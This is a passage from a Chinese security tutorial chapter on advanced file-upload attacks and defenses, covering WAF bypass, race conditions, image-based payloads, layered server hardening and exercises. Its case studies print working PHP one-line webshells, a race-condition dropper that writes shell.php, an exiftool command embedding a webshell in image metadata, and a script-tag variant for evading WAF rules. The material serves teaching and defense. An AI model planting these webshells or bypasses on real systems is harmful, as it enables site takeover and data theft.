> 含义完全一样，但WAF不认识这个"组合"。
> 这就像安检员认识"炸弹"两个字，但你把"炸弹"拆成了"弓单火"——
> 安检员就看不出来了。
>
> **为什么WAF总是能被绕过？**
>
> WAF面临一个根本困境：
> - 它要快速检测（不能拖慢正常访问）
> - 它要面面俱到（不能漏掉任何攻击）
>
> 这两点是矛盾的。检测越细致，速度越慢；跑得越快，就越可能漏。
> WAF只能在其间找一个平衡点，而攻击者可以利用这个平衡点找突破口。
>
> 💡 一句话总结：
> **WAF和服务器对同一个请求的"理解"不同。
> 你就要让WAF看到的是"A"（安全），让服务器看到的是"B"（攻击）。**

**图24-5 WAF绕过思路总览图**



---

## 🏰 文件上传防御体系

讲完了攻击，
我们来讲讲防御。
作为安全从业者，
防御和攻击同样重要。

怎么防御文件上传漏洞？
需要多层防护，
层层把关。

### 6.1 第一层：前端验证

前端验证虽然防不住攻击者，
但是可以拦截普通用户的误操作，
减少服务器压力。

**前端验证要点：**
- 限制文件类型
- 限制文件大小
- 提示用户正确的格式
- 只作为辅助手段，不能作为主要安全措施

**记住：前端验证不可信，必须后端再验证。**

### 6.2 第二层：后端验证（核心）

这是防御的核心，
必须做好。

#### 6.2.1 文件后缀验证

- **使用白名单，不要用黑名单**
  白名单更安全，
  只允许指定的后缀。

- **严格判断后缀**
  - 取最后一个`.`后面的内容作为后缀
  - 转成小写再比较
  - 不要有歧义

- **注意特殊后缀**
  像`.php3`、`.phtml`这些也要考虑。

#### 6.2.2 MIME类型验证

- 检查Content-Type
- 但是只能作为辅助，不能作为主要验证
  因为Content-Type可以伪造

#### 6.2.3 文件内容验证

- **文件头检查**：检查文件开头的幻数
- **用专业函数检测**：比如PHP的`getimagesize()`、`exif_imagetype()`
- **二次渲染**：对图片进行重新生成，这是最有效的
- **检测危险内容**：搜索`<?php`、`<%`、`<script`等危险标签

#### 6.2.4 文件大小验证

- 限制上传文件的大小
- 防止大文件DDoS

#### 6.2.5 文件名处理

- **随机命名**：不要用用户上传的文件名，用随机生成的文件名
- **不要用户可控文件名**：文件名不要由用户决定
- **不要有特殊字符**：过滤掉`.`、空格、`/`、`\`等
- **注意Windows特性**：处理掉末尾的点、空格、`::$DATA`等

### 6.3 第三层：服务器配置

服务器层面也要做好配置。

#### 6.3.1 Web服务器配置

- **禁止上传目录的执行权限**
  上传目录只允许静态文件访问，
  不允许执行脚本。

  Apache：
  ```apache
  <Directory /var/www/upload>
      php_flag engine off
  </Directory>
  ```

  Nginx：
  ```nginx
  location ~ /upload/.*\.php$ {
      deny all;
  }
  ```

- **关闭解析漏洞**
  正确配置Web服务器，
  避免解析漏洞。

  Nginx：
  ```nginx
  cgi.fix_pathinfo=0  # 在php.ini里
  ```

- **禁止.htaccess**（如果不需要的话）
  ```apache
  AllowOverride None
  ```

#### 6.3.2 存储位置

- **上传文件存储在web目录之外**
  不要放在web能直接访问的目录。
  要用的时候通过程序读取输出。

- **独立域名/独立服务器**
  上传的文件放在独立的域名或服务器上，
  即使出问题也不影响主站。

### 6.4 第四层：权限控制

- **网站运行权限最小化**
  Web服务的运行用户权限尽量小，
  不要用root、system等高权限用户。

- **上传目录权限设置**
  只给读写权限，
  不给执行权限。

- **数据库权限最小化**
  数据库账号只给必要的权限。

### 6.5 第五层：日志与监控

- **记录上传日志**
  谁、什么时候、上传了什么文件，
  都记录下来。

- **异常监控**
  监控上传目录的文件变化，
  发现可疑文件及时告警。

- **定期扫描**
  定期用安全工具扫描上传目录，
  检查有没有WebShell。

### 6.6 防御总结

| 防御层级 | 主要措施 | 说明 |
|---------|---------|------|
| 第一层 | 前端验证 | 辅助，不可信 |
| 第二层 | 后端验证 | 核心，白名单、内容检查、随机命名 |
| 第三层 | 服务器配置 | 禁止执行、关闭解析漏洞 |
| 第四层 | 权限控制 | 最小权限原则 |
| 第五层 | 日志监控 | 发现问题及时处理 |

**防御的核心思想：多层防护，纵深防御。**
不要把所有希望寄托在某一层上，
每一层都做一点，
综合起来就安全多了。

> 老K说：
> **"攻击只要找到一个突破口，
> 防御却要堵住所有缺口。
> 防御比攻击难。**
>
> 但是，
> 只要遵循安全最佳实践，
> 做好多层防护，
> 绝大部分的攻击都能防住。
>
> 最怕的是什么都不做，
> 或者只做前端验证就以为万事大吉了。
> 那和裸奔没区别。"

**图24-6 文件上传五层防御体系图**



---

## 🧭 渗透实战心法：文件上传的"道"与"术"

学完了这一章，你已经掌握了从基础到高级的所有"术"（具体技巧）。
但真正在实战中，更重要的是"道"（方法论）。

### 心法一：永远怀疑"不一致"

文件上传绕过的本质，我们反复强调过了：
**验证阶段看到的东西 ≠ 执行阶段处理的东西。**

做渗透时，每个环节都多问一句：
- 前端和后端验证的规则一样吗？
- 文件保存时和验证时用的文件名一样吗？
- 服务器解析文件时，用的后缀和验证时的后缀一样吗？
- WAF看到的和服务器看到的请求内容一样吗？

### 心法二：善用组合拳

单个绕过方法可能被某层防御挡住，但组合使用往往有效：
- `.htaccess` + 图片马 → 绕过白名单
- 条件竞争 + 解析漏洞 → 绕过删除 + 白名单
- WAF绕过 + 特殊后缀 → 绕过WAF + 黑名单

每一层防御都可能被突破，但你的目标是找到一个**贯穿全层的路径**。

### 心法三：从防御角度思考攻击

理解防御是怎么做的，才知道怎么攻：
- 防御用了白名单 → 想想怎么让.jpg变成可执行的
- 防御用了重命名 → 想想文件名之外还有没有其他方式执行
- 防御用了WAF → 想想WAF和服务器解析的差异在哪

> 💡 记住一句话：
> **"攻击者在找一个洞，防御者要堵住所有的洞。"**
> 但只要你系统地、有方法地找，总能找到那个还没被堵上的洞。

---

## 📚 案例讲解

### 案例1：条件竞争拿Shell

小明做CTF题，
遇到一道文件上传的题。

他测试了一下：
- 传.php不行，提示非法文件
- 传.jpg可以
- 白名单验证，感觉挺严的

但是他注意到一个细节：
上传.php的时候，
返回"上传失败，文件类型不允许"，
但是响应时间比传.jpg稍微长一点。

"先上传再检查？"
小明心中一动。

"会不会是条件竞争？"

他准备了一个文件`test.php`：
```php
<?php
    fputs(fopen('shell.php', 'w'), '<?php @eval($_POST["cmd"]); ?>');
?>
```
这个文件的作用是，
只要被访问一次，
就生成一个shell.php。

然后他写了两个Python脚本，
一个不断上传，
一个不断访问上传后的路径。

两个脚本同时跑。

跑了大概30秒，
访问脚本突然打印了"成功！"

小明赶紧访问shell.php，
能访问！
然后用蚁剑连接，
成功拿到WebShell。

"条件竞争，有意思！"
小明兴奋地说。

原来这个网站的逻辑是：
先把文件保存到upload目录，
然后检查后缀，
如果不合法就删掉。
但是保存和删除之间有一个时间差，
就被小明利用了。

> 经验总结：
> **遇到上传后提示不合法的，
> 可以试试条件竞争。**
>
> 关键是判断上传逻辑是不是"先保存后检查"。
> 怎么判断？
> - 看响应时间
> - 看能不能在短时间内访问到
> - 直接跑脚本试试
>
> 条件竞争虽然不是每次都能成，
> 但一旦成功，
> 直接拿Shell，
> 性价比很高。

### 案例2：二次渲染 + 文件包含拿Shell

小李做渗透测试，
目标网站有个图片上传功能。

他测试了一下：
- 只能传图片（白名单）
- 上传后的图片会被压缩（二次渲染）
- 图片马直接传没用，渲染后代码没了

"二次渲染？有点难搞..."

但是他又发现，
网站有个文件包含的功能，
比如：
`/view.php?file=xxx`
可以包含文件。

"有文件包含的话，
图片马里只要有一点代码不就行了？"

他想了想，
试了试把一句话写到图片的EXIF信息里。

他用exiftool修改了一张JPG图片的Comment字段：
```
exiftool -Comment="<?php @eval(\$_POST['cmd']); ?>" test.jpg
```

然后上传这张图片。
上传成功，
图片也被二次渲染了。

他下载渲染后的图片，
检查了一下EXIF...
Comment字段居然还在！
二次渲染没有清除EXIF信息！

"天助我也！"

然后他用文件包含漏洞包含这张图片：
```
/view.php?file=upload/12345.jpg
```
同时POST传参`cmd=phpinfo();`。

成功执行了！

因为文件包含会把整个文件当PHP解析，
不管代码在文件的什么位置，
只要有`<?php ... ?>`就会执行。

一个二次渲染 + 文件包含的组合，
就这么拿下了。

> 思路拓展：
> **二次渲染不是完全无懈可击的。**
>
> 关键是找到渲染后还能保留的位置：
> - EXIF信息
> - PNG的tEXt块
> - GIF的某些部分
> - ...
>
> 再配合文件包含漏洞，
> 只要有一点代码就能执行。
>
> 攻防博弈，
> 就看谁想得更细。

### 案例3：一个不严谨的上传导致的数据泄露

小王是个安全工程师，
负责公司网站的安全。

有一天，
他接到通知，
公司官网被入侵了，
数据被泄露了。

他赶紧去排查。

经过分析，
入侵的入口是一个"反馈建议"的上传功能。

这个功能允许用户上传附件，
开发人员觉得只是个小功能，
没太在意，
验证做得很简陋：
- 前端JS验证后缀
- 后端没验证（或者说验证形同虚设）
- 文件存在web可访问的目录
- 文件名就用用户传的

攻击者就是通过这个上传点，
传了一个PHP WebShell，
然后拿到了网站的控制权。

接下来：
- 读取了数据库配置
- 拖了整个数据库
- 下载了很多敏感文件
- 还留了后门

"就因为一个小小的上传功能，
整个网站都被拿下了。"
小王叹了口气。

他赶紧做了修复：
1. 后端加强验证：白名单、文件头检查
2. 文件随机重命名
3. 上传目录禁止执行PHP
4. 清理后门和木马
5. 修复其他漏洞
6. 加强日志监控

然后他给开发团队做了安全培训，
重点讲了文件上传的安全。

"一个小小的上传点，
如果做不好，
就是整个系统的突破口。"
小王在培训会上说，
"大家一定要重视。
安全无小事。"

> 防御启示：
> **文件上传漏洞的防御，
> 不能只靠某一层，
> 要多层防护。**
>
> 1. 后端验证（白名单、内容检查）
> 2. 随机命名
> 3. 上传目录禁执行
> 4. 权限最小化
> 5. 日志监控
>
> 每一层都做到位，
> 就能防住绝大部分的攻击。
>
> 不要因为功能小就不重视，
> 千里之堤，
> 溃于蚁穴。

### 案例4：WAF绕过的艺术

小张做渗透测试，
目标网站有WAF。

他测试文件上传的时候，
传PHP文件直接被WAF拦了，
返回403 Forbidden。

"有WAF啊..."

小张没有放弃，
开始尝试各种绕过方法。

他先试了试：
- 改Content-Type → 没用，WAF检测内容
- 文件头加GIF89a → 没用，WAF检测<?php
- 大小写 → 没用

"检测文件内容是吧？"

他试了试一句话木马变形：
```php
<script language="php">@eval($_POST['cmd']);</script>
```
不用`<?php`标签，
用`<script language="php">`。

结果...
上传成功了！
WAF没检测到！

因为WAF的规则里只检测了`<?php`，
没检测`<script language="php">`这种写法。

然后他访问上传后的文件，
PHP成功执行。

"WAF规则写得不行啊..."
小张笑了。

然后他又试了试其他变形，
比如字符串拼接、base64编码，
也都能绕过。

一个WAF，
就这么被轻松绕过了。

> 经验总结：
> **WAF不是万能的。**
>
> 常见的绕过思路：
> - 一句话木马变形
> - 编码绕过
> - 协议层绕过
> - 分块传输
> - 数据填充
> - ...
>
> 关键是找到WAF规则的盲区。
>
> 当然，
> 绕过WAF最好的方式，
> 是找到WAF没覆盖的上传点。
> 能直接绕过去，
> 就不用和WAF硬刚。

### 案例5：防御做的好的网站是什么样的？

老周做渗透测试，
目标是一个金融网站。

他找了半天，
找到了几个上传点：
- 头像上传
- 证件上传
- 资料上传

他一个个测试：

**头像上传：**
- 只能传jpg/png/gif（白名单）
- 文件头检查
- 图片会被压缩二次渲染
- 文件名随机生成
- 上传在独立的图片服务器
- 图片服务器没开PHP
- 访问用CDN域名

试了各种方法，
都没绕过。

**证件上传：**
- 只能传jpg/pdf
- 有专门的文件服务
- 文件存在非web目录
- 访问通过接口鉴权下载
- 直接下载是原始文件，但是无法执行

也拿不下。

**资料上传：**
- 需要登录
- 有文件类型限制
- 有大小限制
- 文件存在内网存储
- 外部不能直接访问

也不行。

老周测了一整天，
愣是没在上传点上找到突破口。

"防御做的真不错啊..."
老周感慨道。

最后他是从一个其他的漏洞（逻辑漏洞）进去的，
不是从上传点。

"这才是正确的防御姿势。"
老周在报告里写道，
"上传功能的防护做的很到位，
多层防护，
纵深防御，
值得表扬。"

> 防御启示：
> **好的防御是什么样的？**
>
> 1. **白名单验证**：只允许指定类型
> 2. **内容检查**：文件头、二次渲染
> 3. **随机命名**：猜不到文件名
> 4. **独立存储**：独立服务器/独立域名
> 5. **禁执行权限**：上传目录不能执行脚本
> 6. **最小权限**：运行用户权限低
> 7. **日志监控**：有问题能发现
>
> 多层防护，
> 层层把关，
> 让攻击者无处下嘴。
>
> 这才是专业的安全防御。

---

## ✏️ 课后习题

### 选择题

1. 条件竞争利用的是什么？
   - A. 上传和删除之间的时间差
   - B. 文件名的漏洞
   - C. 文件内容的漏洞
   - D. 服务器解析漏洞

2. 条件竞争中，上传的恶意文件一般用来做什么？
   - A. 直接当WebShell用
   - B. 生成一个永久的WebShell
   - C. 偷数据库
   - D. 破坏服务器

3. 二次渲染的主要作用是？
   - A. 压缩图片大小
   - B. 让图片更好看
   - C. 清除图片里的恶意代码
   - D. 加快访问速度

4. 二次渲染绕过的核心思路是？
   - A. 把代码藏到渲染后还能保留的位置
   - B. 用更高级的图片格式
   - C. 加大图片文件大小
   - D. 修改文件名

5. 图片马不能直接执行的时候，常配合什么漏洞利用？
   - A. SQL注入
   - B. XSS
   - C. 文件包含
   - D. CSRF

6. 以下哪个是文件上传防御的正确做法？
   - A. 只做前端验证
   - B. 用黑名单验证后缀
   - C. 用白名单验证后缀 + 内容检查 + 随机命名 + 禁执行
   - D. 文件存在web根目录

7. 文件上传防御中，关于后缀验证，哪个说法正确？
   - A. 黑名单比白名单安全
   - B. 白名单比黑名单安全
   - C. 两者一样安全
   - D. 不需要验证后缀

8. 以下哪个不是文件上传的防御措施？
   - A. 文件随机重命名
   - B. 上传目录禁止执行脚本
   - C. 只做前端JS验证
   - D. 文件内容二次渲染

9. 挖掘文件上传漏洞时，第一步应该做什么？
   - A. 直接传木马
   - B. 找上传点，摸清楚情况
   - C. 用扫描器扫
   - D. 猜路径

10. WAF绕过的思路中，以下哪个不正确？
    - A. 一句话木马变形
    - B. 分块传输
    - C. 放弃，有WAF就没办法
    - D. 协议层绕过

### 填空题

1. 条件竞争利用的是文件______和______之间的时间差。

2. 二次渲染绕过的关键是把代码藏到______的位置。

3. 图片马常见的利用方式有：______、______、______。

4. 文件后缀验证推荐使用______（白名单/黑名单）。

5. 上传文件推荐用______（用户文件名/随机文件名）。

6. 上传目录应该______（允许/禁止）脚本执行。

7. 防御文件上传的五层体系是：______、______、______、______、______。

8. 挖掘文件上传漏洞的第一步是______。

9. WAF绕过中，如果检测`<?php`，可以用______标签代替。

10. 条件竞争中，恶意文件的作用一般是______。

### 简答题

1. 什么是条件竞争？原理是什么？怎么利用？

2. 什么是二次渲染？怎么绕过二次渲染？

3. 图片马有哪些利用方式？分别怎么实现？

4. 挖掘文件上传漏洞的一般流程是什么？

5. WAF绕过有哪些常见的思路？

6. 文件上传漏洞的防御措施有哪些？从哪几个层面？

7. 为什么说前端验证不可信？

8. 白名单和黑名单哪个更安全？为什么？

9. 上传文件为什么要随机命名？

10. 上传目录为什么要禁止执行权限？

### 实操题

1. **条件竞争练习：**
   - 找一个有条件竞争漏洞的上传场景（自己搭或者CTF题）
   - 写脚本实现条件竞争攻击
   - 成功拿到WebShell
   - 理解条件竞争的原理

2. **二次渲染研究：**
   - 上传一张正常图片
   - 下载二次渲染后的图片
   - 用十六进制编辑器对比两张图片
   - 看看哪些部分变了，哪些没变
   - 试试能不能在保留的部分藏代码

3. **图片马 + 文件包含练习：**
   - 准备一个图片马
   - 准备一个文件包含的环境
   - 通过文件包含执行图片马
   - 体验组合漏洞的威力

4. **防御实践（代码层面）：**
   - 写一个安全的文件上传功能（PHP或其他语言）
   - 包含：白名单验证、文件头检查、大小限制、随机命名
   - 自己攻击自己写的上传功能，看能不能绕过
   - 不断加固，直到绕不过为止

5. **综合练习：**
   - 找一个综合靶场（比如DVWA、Upload-Labs）
   - 从头到尾测试所有关卡
   - 记录每一关的绕过方法和思路
   - 最后总结一下文件上传的知识体系
   - 画一张自己的思维导图

---

## 📝 本章小结

这一章，
我们学习了文件上传的高级技巧和防御。

总结一下重点：

1. **条件竞争**
   - 原理：上传和删除之间的时间差
   - 利用：一边上传一边访问，抢时间
   - 恶意文件作用：生成永久Shell
   - 防御：先检查后保存，或保存到不可访问目录

2. **二次渲染绕过**
   - 什么是二次渲染：重新生成图片，清除恶意代码
   - 绕过思路：找到渲染后保留的位置（EXIF、PNG块等）
   - 配合文件包含效果更好
   - 防御：彻底的二次渲染 + 文件包含防御

3. **图片马高级利用**
   - 配合文件包含
   - 配合解析漏洞
   - 配合.htaccess
   - 图片马隐藏技巧

4. **漏洞挖掘思路**
   - 找上传点
   - 指纹识别
   - 从简单到复杂测试
   - 细心观察，做好记录
   - 工具辅助

5. **WAF绕过**
   - 分块传输
   - 编码绕过
   - 一句话变形
   - 协议层绕过
   - 文件名/内容各种变形
   - 找到WAF的盲区

6. **防御体系（五层）**
   - 第一层：前端验证（辅助）
   - 第二层：后端验证（核心：白名单、内容检查、随机命名）
   - 第三层：服务器配置（禁执行、关解析漏洞）
   - 第四层：权限控制（最小权限）
   - 第五层：日志监控（发现问题）

> 最后送你一句话：
> **"文件上传漏洞，
> 从攻击角度看，
> 是拿Shell最快的方式；
> 从防御角度看，
> 是最需要重视的入口点。**
>
> 学习攻击，
> 是为了更好地防御。
> 只有知道怎么攻，
> 才能知道怎么防。
>
> 到这里，
> 文件上传的三章就全部讲完了。
> 从基础到进阶到高级，
> 从攻击到防御，
> 希望你能建立起完整的知识体系。
>
> 下一章，
> 我们会对整个文件上传模块和基础篇做一个总结回顾。
> 加油！"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day027-basic-文件上传进阶)
- [➡️ 下一章：---](/redteam/day029-basic-基础篇总复习)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
